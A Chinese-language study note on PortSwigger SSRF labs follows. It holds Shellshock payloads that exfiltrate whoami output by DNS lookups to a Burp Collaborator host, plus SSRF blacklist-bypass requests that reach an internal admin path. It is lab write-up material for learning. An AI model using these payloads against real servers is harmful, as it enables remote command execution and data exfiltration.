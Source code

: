 ## SSRF
SSRF漏洞点检测：

- xml请求的功能、由XXE引入
- SSRF via the Referer header
- 通过referer对请求来源进行分析


### 【盲SSRF进行shellshock】
没做出来，看了solution回来总结。
https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation

这个利用盲ssrf对服务器同网段主机进行shellshock扫描的题，
失败总结：
1、没有装 "Collaborator Everywhere"插件，导致只知道Referer能SSRF，而这个插件扫出来UA也可以SSRF。这样才解释了如果只能控制一个URL，如何进行Shellshock攻击的问题
2、Shellshock的payload的问题，我
```
() { :;}; /usr/bin/nslookup $(whoami).jre1ragoptseyerv71cxzk9wun0ood.burpcollaborator.net
() { :;}; bash -c nslookup $(whoami).ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net
() { :;}; bash -c nslookup `whoami`.ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net
() { :;}; bash -c nslookup '`whoami`.ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net'
() { :;}; bash -c nslookup %27`whoami`.ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net%27
```
正确是：
```
() { :;}; /usr/bin/nslookup $(whoami).ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net
```
另外发现,不用bash -c也是可以执行的：
() { :;}; nslookup $(whoami).ovn6vfkttywj2jv0b6g23pd1ys4vsk.burpcollaborator.net


### 【blacklist-based的SSRF】

使用包含localhost、127.0.0.1的字符串的时候，都碰到
响应400："External stock check blocked for security reasons"
说明localhost、127.0.0.1都被黑名单了，尝试xxx.127.0.0.9.nip.进行域名的绕过
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net.127.0.0.9.nip.io%2Fadmin
```
响应400："External stock check blocked for security reasons"

然后把admin放到域名中，碰到同样的情况，
说明admin被黑名单了。

切换大小写：
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net.127.0.0.9.nip.io%2FadmiN
```
响应500："Could not connect to external stock check service"

发现原来我的绕过姿势不对，
应该是用 127.1或者127.0.1。


### 【whitelist-based的SSRF】
